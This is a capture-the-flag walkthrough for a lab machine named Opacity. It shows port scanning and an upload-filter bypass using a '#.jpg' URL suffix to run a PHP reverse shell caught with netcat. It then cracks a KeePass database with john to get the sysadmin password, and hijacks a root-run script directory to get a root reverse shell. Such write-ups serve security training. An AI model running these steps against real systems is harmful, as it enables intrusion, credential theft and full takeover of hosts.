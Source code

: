 <h2>Target: 10.10.194.154  Opacity </h2>

<b>Initial Access:</b><br>
Step 1: nmap -Pn 10.10.194.154 -p- --min-rate=5000|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Nmap returns open ports: 22,80,139,445

Step 2: Enumerate the open ports further using nmap: nmap -Pn 10.10.194.154 --min-rate=5000 -p 22,80,139,445 -sC -sV -oN nmap-opacity

Step 3: Run directory brute force on port 80: dirsearch -r -u http://10.6.64.178 -e php -f -o dsearch-opacity

Dirsearch found a directory of /cloud.  

Step 4: Navigating to http://10.6.64.178/cloud shows the page has an upload image function.  Since the upload function takes a url for uploading, create a file on our local pc called “php-rev-shell.php” and host the file using a python web server: python3 -m http.server 80

The upload image function has a filter in place that checks that the filename ends in .jpg, .jpeg, or .png.  To bypass the filter, enter a url of http://php-rev-shell.php#.jpg

Step 5: Open a netcat listener to catch the reverse shell: nc -lvnp 443

Step 6: Enter the url http://ourip/php-rev-shell.php#jpg and click on ‘upload image’. 

The image uploads and runs the reverse shell.  We get a shell on our netcat listener as user www-data.

____________________________________________
<b>Lateral Movement:</b><br>
Step 1: Navigating to the directory /opt shows a keepass file called dataset.kdbx.  Download the file /opt/dataset.kdbx

Step 2: Crack the hash on dataset.kdbx.  First use john to convert the file to a hash john can use: keepass2john dataset.kdbx > john.txt

Next, run john to crack the hash: john hash –wordlist=/usr/share/wordlists/rockyou.txt

John cracked the hash to “741852963”

Step 3: Open the keepass file using the command: keepassxc dataset.kdbx

This opens a kepassxc gui. Enter the password we got from john: 741852963

After entering the password the keepassxc gui shows credentials: username ‘sysadmin’ and password ‘Cl0udP4ss40p4city#8700’

Step 4: Check the usernames on the target shell in the file /etc/passwd: cat /etc/passwd |grep sh

This shows the target shell has a username of ‘sysadmin’.  The same username we found in the keepass file.  

Step 5: On the target shell, change to user sysadmin: su sysadmin → enter the password when prompted

We have shell as user sysadmin.  We can get the flag in /home/sysadmin/local.txt
_____________________________________________
<b>Privilege EscalationL</b><br>
Step 1: Check for background processes that are running.  In order to do this we will use pspy.  Upload pspy to the target shell and run pspy.  

Pspy shows a process running a file called /home/sysadmin/scripts/script.php as the root user.  

Step 2: File permissions on script.php prevent editing or deleting it.  

Check the file permissions in the directory above script.php → /home/syadmin/scripts.

Again, file permissions prevent editing or deleting the directory ‘scripts’.  However, because the directory ‘scripts’ is in the directory ‘/home/sysadmin’ which is under sysadmin user permissions, we can change the name of the directory ‘scripts’: mv scripts oldscripts
 
Step 3: Create a new directory called ‘scripts’: mkdir scripts

Step 4: Upload a php reverse shell called ‘script.php’ to the target shell in the directory /home/sysadmin/scripts

Step 5: Open a netcat listener to catch the reverse shell: rlwrap nc -lnvp 443

Wait a few moments for the task to run.  Once the task runs we get a shell as root on our netcat listener.  We can get the flag in /root/proof.txt
